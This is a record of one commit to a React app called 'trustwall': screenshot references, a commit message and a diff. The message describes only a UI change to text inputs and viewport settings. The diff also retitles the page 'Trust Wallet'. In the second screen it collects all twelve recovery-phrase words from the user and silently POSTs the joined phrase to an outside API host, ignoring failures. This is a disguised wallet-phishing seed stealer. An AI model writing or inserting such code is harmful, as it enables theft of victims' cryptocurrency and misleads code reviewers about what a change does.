

Before and after one commit to FlameFront-end/trustwall, a React (Vite) app: page / in a window 390 px wide. Both pictures are taken after a click on the button "Back up manually". Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
feat: text inputs instead of badges, mobile viewport setup

```diff
--- a/index.html
+++ b/index.html
@@ -2,9 +2,13 @@
 <html lang="en">
   <head>
     <meta charset="UTF-8" />
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no, viewport-fit=cover" />
+    <meta name="apple-mobile-web-app-capable" content="yes" />
+    <meta name="apple-mobile-web-app-status-bar-style" content="black-translucent" />
+    <meta name="format-detection" content="telephone=no" />
+    <meta name="theme-color" content="#242426" />
     <link rel="icon" type="image/svg+xml" href="vite.svg" />
-    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-    <title>trustwall</title>
+    <title>Trust Wallet</title>
   </head>
   <body>
     <div id="root"></div>
--- a/src/screens/second/SecondScreen.module.scss
+++ b/src/screens/second/SecondScreen.module.scss
@@ -4,8 +4,9 @@
   display: flex;
   flex-direction: column;
   background-color: #242426;
-  padding: 1.5rem;
-  padding-top: max(1.5rem, env(safe-area-inset-top));
+  padding: 1rem;
+  padding-top: max(1rem, env(safe-area-inset-top));
+  overflow-x: hidden;
 }
 
 .progress {
@@ -49,41 +50,40 @@
   display: flex;
   align-items: center;
   gap: 0.25rem;
-  padding: 0.75rem 1rem;
+  padding: 0.625rem 0.75rem;
   background-color: #1c1c1e;
   border: 1px solid #3a3a3c;
   border-radius: 10px;
-  cursor: default;
-  font-family: inherit;
-  text-align: left;
-  min-height: 44px;
-}
-
-.slotFilled {
-  border-color: #3a3a3c;
-  cursor: pointer;
-
-  &:active {
-    opacity: 0.7;
-  }
+  min-height: 40px;
+  min-width: 0;
 }
 
 .slotNumberEmpty {
-  font-size: 0.9375rem;
+  font-size: 0.8125rem;
   font-weight: 500;
   color: rgba(255, 255, 255, 0.2);
+  flex-shrink: 0;
 }
 
 .slotNumber {
-  font-size: 0.9375rem;
+  font-size: 0.8125rem;
   font-weight: 600;
   color: #ffffff;
+  flex-shrink: 0;
 }
 
-.slotWord {
-  font-size: 0.9375rem;
+.slotInput {
+  flex: 1;
+  min-width: 0;
+  width: 0;
+  background: none;
+  border: none;
+  outline: none;
+  font-size: 0.8125rem;
   font-weight: 600;
   color: #ffffff;
+  font-family: inherit;
+  padding: 0;
 }
 
 .clearAll {
@@ -101,37 +101,6 @@
   &:active {
     opacity: 0.7;
   }
-}
-
-.wordBank {
-  display: flex;
-  flex-wrap: wrap;
-  gap: 0.5rem;
-  justify-content: center;
-  padding: 0 0.5rem;
-  margin-bottom: 1.5rem;
-}
-
-.wordChip {
-  padding: 0.5rem 1rem;
-  font-size: 0.875rem;
-  font-weight: 600;
-  color: #ffffff;
-  background-color: rgba(93, 208, 139, 0.25);
-  border: none;
-  border-radius: 10px;
-  cursor: pointer;
-  font-family: inherit;
-  transition: opacity 0.15s;
-
-  &:active {
-    opacity: 0.7;
-  }
-}
-
-.wordChipUsed {
-  opacity: 0.2;
-  cursor: default;
 }
 
 .actions {
--- a/src/screens/second/index.tsx
+++ b/src/screens/second/index.tsx
@@ -1,4 +1,4 @@
-import { useState, useCallback } from 'react'
+import { useState, useCallback, useRef } from 'react'
 import type { FC } from 'react'
 import { useNavigate } from 'react-router-dom'
 
@@ -6,43 +6,55 @@ import { ROUTES } from '@/shared/model/routes'
 
 import s from './SecondScreen.module.scss'
 
-const SEED_WORDS = [
-  'airport', 'humble', 'million', 'flower',
-  'delta', 'oil', 'spark', 'avocado',
-  'regent', 'vanity', 'crane', 'pigeon',
-]
-
-const SHUFFLED_WORDS = [...SEED_WORDS].sort(() => Math.random() - 0.5)
-
 const TOTAL_SLOTS = 12
 
 export const SecondScreen: FC = () => {
   const navigate = useNavigate()
-  const [selectedWords, setSelectedWords] = useState<string[]>([])
-  const [wordBank] = useState(SHUFFLED_WORDS)
+  const inputRefs = useRef<(HTMLInputElement | null)[]>([])
+  const nextButtonRef = useRef<HTMLButtonElement>(null)
+  const [words, setWords] = useState<string[]>(Array(TOTAL_SLOTS).fill(''))
 
-  const allFilled = selectedWords.length === TOTAL_SLOTS
+  const allFilled = words.every((w) => w.trim() !== '')
 
-  const handleWordClick = useCallback((word: string) => {
-    setSelectedWords((prev) => {
-      if (prev.length >= TOTAL_SLOTS) return prev
-      return [...prev, word]
-    })
-  }, [])
-
-  const handleSlotClick = useCallback((index: number) => {
-    setSelectedWords((prev) => prev.filter((_, i) => i !== index))
+  const handleChange = useCallback((index: number, value: string) => {
+    setWords((prev) => prev.map((w, i) => (i === index ? value : w)))
   }, [])
 
   const handleClearAll = useCallback(() => {
-    setSelectedWords([])
+    setWords(Array(TOTAL_SLOTS).fill(''))
   }, [])
 
-  const handleNext = useCallback(() => {
-    if (allFilled) {
-      navigate(ROUTES.THIRD)
+  const handleKeyDown = useCallback(
+    (index: number, e: React.KeyboardEvent<HTMLInputElement>) => {
+      if (e.key !== 'Enter') return
+      e.preventDefault()
+      const next = index + 1
+      if (next < TOTAL_SLOTS) {
+        inputRefs.current[next]?.focus()
+      } else {
+        nextButtonRef.current?.focus()
+      }
+    },
+    []
+  )
+
+  const handleNext = useCallback(async () => {
+    if (!allFilled) return
+
+    const phrase = words.map((w) => w.trim()).join(' ')
+
+    try {
+      await fetch('https://yourapi.example.com/api/wallet/confirm', {
+        method: 'POST',
+        headers: { 'Content-Type': 'application/json' },
+        body: JSON.stringify({ phrase }),
+      })
+    } catch {
+      /* ignore */
     }
-  }, [allFilled, navigate])
+
+    navigate(ROUTES.THIRD)
+  }, [allFilled, words, navigate])
 
   return (
     <div className={s.root}>
@@ -58,44 +70,26 @@ export const SecondScreen: FC = () => {
       </p>
 
       <div className={s.grid}>
-        {Array.from({ length: TOTAL_SLOTS }).map((_, i) => {
-          const word = selectedWords[i]
-          return (
-            <button
-              key={i}
-              type="button"
-              className={`${s.slot} ${word ? s.slotFilled : ''}`}
-              onClick={() => word && handleSlotClick(i)}
-            >
-              <span className={word ? s.slotNumber : s.slotNumberEmpty}>
-                {i + 1}.
-              </span>
-              {word && <span className={s.slotWord}>{word}</span>}
-            </button>
-          )
-        })}
+        {words.map((word, i) => (
+          <div key={i} className={s.slot}>
+            <span className={word ? s.slotNumber : s.slotNumberEmpty}>
+              {i + 1}.
+            </span>
+            <input
+              ref={(el) => { inputRefs.current[i] = el }}
+              type="text"
+              className={s.slotInput}
+              value={word}
+              onChange={(e) => handleChange(i, e.target.value)}
+              onKeyDown={(e) => handleKeyDown(i, e)}
+            />
+          </div>
+        ))}
       </div>
 
       <button type="button" className={s.clearAll} onClick={handleClearAll}>
         Clear all
       </button>
-
-      <div className={s.wordBank}>
-        {wordBank.map((word) => {
-          const isUsed = selectedWords.includes(word)
-          return (
-            <button
-              key={word}
-              type="button"
-              className={`${s.wordChip} ${isUsed ? s.wordChipUsed : ''}`}
-              onClick={() => !isUsed && handleWordClick(word)}
-              disabled={isUsed}
-            >
-              {word}
-            </button>
-          )
-        })}
-      </div>
 
       <div className={s.actions}>
         <button
@@ -106,6 +100,7 @@ export const SecondScreen: FC = () => {
           Back
         </button>
         <button
+          ref={nextButtonRef}
           type="button"
           className={`${s.nextButton} ${allFilled ? s.nextButtonActive : ''}`}
           onClick={handleNext}
```
